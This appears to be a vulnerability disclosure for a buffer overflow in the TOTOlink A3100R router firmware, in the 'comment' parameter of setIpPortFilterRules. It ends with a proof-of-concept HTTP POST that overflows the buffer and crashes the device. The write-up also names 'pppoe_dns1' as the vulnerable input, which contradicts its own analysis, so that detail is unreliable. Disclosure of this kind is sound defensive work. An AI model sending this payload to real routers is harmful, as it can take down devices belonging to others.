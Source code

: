 # TARGET
TOTOlink A3100R
V5.9c.1527
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3100R router device contains a buffer overflow vulnerability in its firmware version V5.9c.1527. The vulnerability arises from the improper input validation of the `comment` parameter in the `setIpPortFilterRules` interface of `/lib/cste_modules/firewall.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root//lib/cste_modules/firewall.so`
![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `setIpPortFilterRules` function in `/lib/cste_modules/firewall.so` using IDA, we find that the entry address of the function is `0x00005244`. It is evident that the `v11` variable is passed to `v17` via `strcat` without any filtering or length checks. Through further analysis, it is clear that the controllable `comment` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`comment`" data, and `strcat` copies the string pointed to by `v11` to `v17` without verifying whether `v17` has enough space to store the copied string. If the string pointed to by `v11` exceeds the size of the `v17` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/firewall/ipport_filtering.asp?timestamp=1743751453020
Accept-Language: zh-Hans-CN,zh-Hans;q=0.8,en-US;q=0.6,en;q=0.4,ja;q=0.2
Accept-Encoding: gzip, deflate, br
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 192.168.0.1
Content-Length: 428
Connection: keep-alive
Cache-Control: no-cache
Cookie: SESSION_ID=2:1743751396:2

{"topicurl":"setting/setIpPortFilterRules","ipAddress":"192.168.0.3","dFromPort":"11","dToPort":"111","protocol":"ALL","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","addEffect":"0"}
```
